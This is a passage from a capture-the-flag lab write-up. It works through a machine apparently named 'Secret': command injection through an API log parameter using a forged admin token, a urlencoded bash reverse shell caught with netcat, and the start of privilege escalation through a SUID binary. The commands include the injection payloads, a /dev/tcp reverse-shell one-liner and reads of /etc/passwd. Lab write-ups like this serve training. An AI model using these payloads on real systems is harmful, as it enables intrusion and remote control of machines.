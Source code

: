 ```bash
  "cmd": "git log --oneline /etc/passwd"
}
❯ curl -X GET "http://10.10.11.120/api/logs?file=/etc/passwd;whoami" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.Brw0EOVb6_uZR2L4jk-XeRXhBt0XfDmcW1UeTIxTOHw" -s | jq
"dasith\n"
```
We successfully obtained RCE through bash injection. Now we can obtain a shell with the payload `bash -c 'bash -i >& /dev/tcp/10.10.14.18/3333 0>&1'` which urlencoded looks like `file=/etc/passwd;bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.14.18/3333%200>%261`:
```bash
# Payload triggerer
❯ curl -X GET "http://10.10.11.120/api/logs?file=/etc/passwd;bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.14.18/3333%200>%261'" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.Brw0EOVb6_uZR2L4jk-XeRXhBt0XfDmcW1UeTIxTOHw" -s | jq
# Listening terminal
❯ nc -nlvp 3333
Connection from 10.10.11.120:46562
bash: cannot set terminal process group (1118): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ whoami
whoami
dasith
dasith@secret:~/local-web$ hostname -I
hostname -I
10.10.11.120 dead:beef::250:56ff:feb9:a1b4 
```
We successfully obtained a user shell as dasith.

## Privilege escalation
First thing we must check is if the only user above us is `root`:
```bash
dasith@secret:~/local-web$ cat /etc/passwd | grep "sh$"
cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
dasith:x:1000:1000:dasith:/home/dasith:/bin/bash
```
Next, we can try the typical vulnerabilities:
```bash
dasith@secret:~$ sudo -l
[sudo] password for dasith: 
dasith@secret:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```
If we check the suid binaries, we find an interesting one:
```bash
dasith@secret:~$ find / -perm -4000 2>/dev/null
/opt/count
dasith@secret:~$ /opt/count 
Enter source file/directory name: /etc/passwd

Total characters = 1881
Total words      = 51
Total lines      = 36
Save results a file? [y/N]: y
Path: /tmp/results
dasith@secret:~$ cat /tmp/results 
Total characters = 1881
Total words      = 51
Total lines      = 36
```